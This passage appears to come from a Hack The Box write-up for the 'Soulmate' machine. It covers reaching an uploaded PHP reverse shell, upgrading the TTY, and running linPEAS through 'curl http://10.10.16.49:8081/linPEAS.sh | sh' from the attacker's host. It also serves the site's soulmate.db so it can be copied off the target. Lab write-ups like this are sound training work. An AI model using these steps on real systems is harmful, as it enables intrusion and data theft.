 Now, let's access the webshell we uploaded, in this url, `http://soulmate.htb/php-reverse-shell.php`

![get shell](image-8.png)

and of course, pasting the regular commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Privilege escalate to ben, find the password inside /usr/local/lib/erlang_login/start.escript

we want to get some privilege escalation, so let's execute our lovely `linpeas.sh`. 

first, set up the http server in our local machine
```bash
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ ls    
CVE-2025-31161  linPEAS.sh  php-reverse-shell.php
                                                                                                                                                 
┌──(agonen㉿kali)-[~/htb/Soulmate]
└─$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
```

then, take it on the remote machine, we can pipe it to `sh` because this is a script language, like python. 
```bash
www-data@soulmate:/tmp$ curl http://10.10.16.49:8081/linPEAS.sh | sh
```

However, we don't find anything interesting, so let's continure explore mannualy.

The website holds `.db` file, inside `data` folder, we'll analyze it in our local machine:
```bash
www-data@soulmate:~/soulmate.htb/data$ ls 
soulmate.db
www-data@soulmate:~/soulmate.htb/data$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.10.16.49 - - [22/Oct/2025 11:56:50] "GET /soulmate.db HTTP/1.1" 200 -
```
